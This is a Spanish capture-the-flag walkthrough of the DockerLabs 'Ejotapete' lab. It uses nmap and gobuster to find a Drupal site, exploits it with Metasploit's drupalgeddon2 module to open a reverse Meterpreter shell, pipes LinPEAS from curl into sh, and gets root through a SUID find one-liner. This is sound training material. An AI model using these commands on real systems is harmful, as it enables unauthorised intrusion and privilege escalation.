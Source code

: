 ```yaml
---
icon: flag
---
```


# Ejotapete DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip ejotapete.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh ejotapete.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 11:39 EDT
Nmap scan report for packer.pw (172.17.0.2)
Host is up (0.000058s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.68 seconds
```

Veremos un puerto `80` en el que aloja una pagina web, si entramos dentro veremos un `403 Forbidden` por lo que vamos a realizar un poco de `fuzzing` a ver que encontramos.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 290]
/drupal               (Status: 200) [Size: 8892]
/.html                (Status: 403) [Size: 290]
/server-status        (Status: 403) [Size: 298]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos que hay un `/drupal` por lo que vamos a entrar a ver si es el `CMS` real.

Si entramos veremos que efectivamente hay un `drupal`, este tipo de `CMS` tienen bastantes vulnerabilidades conocidas, por lo que vamos a ir a `metasploit` para desde ahi intentar explotar alguna vulnerabilidad si la tuviera, ya que no nos menciona la `version` vamos a probar a ciegas con algunos exploits conocidos.

## Escalate user www-data

### Metasploit (drupalgeddon2)

```shell
msfconsole -q
```

Una vez dentro vamos a buscar `drupal`.

```shell
search drupal
```

Elegiremos el numero `1` que es el modulo `unix/webapp/drupal_drupalgeddon2` ya que es con el que me ha funcionado.

```shell
use unix/webapp/drupal_drupalgeddon2
```

Una vez que lo hayamos seleccionado, vamos a configurarlo de esta forma:

```shell
set RHOSTS <IP_VICTIM>
set TARGETURI /drupal
set LPORT 9999
exploit
```

Seleccionamos el `TARGETURI` ya que el `drupal` no va en la raiz del puerto `80` por lo que tendremos que poner desde donde se esta suministrando.

Info:

```
[*] Started reverse TCP handler on 192.168.177.129:9999 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (40004 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.177.129:9999 -> 172.17.0.2:48976) at 2025-07-14 11:58:51 -0400

meterpreter > getuid
Server username: www-data
```

Veremos que ha funcionado y seremos dicho usuario.

## Escalate Privileges

Si lanzamos un `LinPEAS` podremos ver lo siguiente:

```shell
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-14 181647.png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos `find` con permisos `SUID` por lo que podremos hacer lo siguiente:

```shell
find . -exec /bin/bash -p \; -quit
```

Info:

```
bash-4.4# whoami
whoami
root
```

Con esto ya seremos `root`, por lo que habremos terminado la maquina.
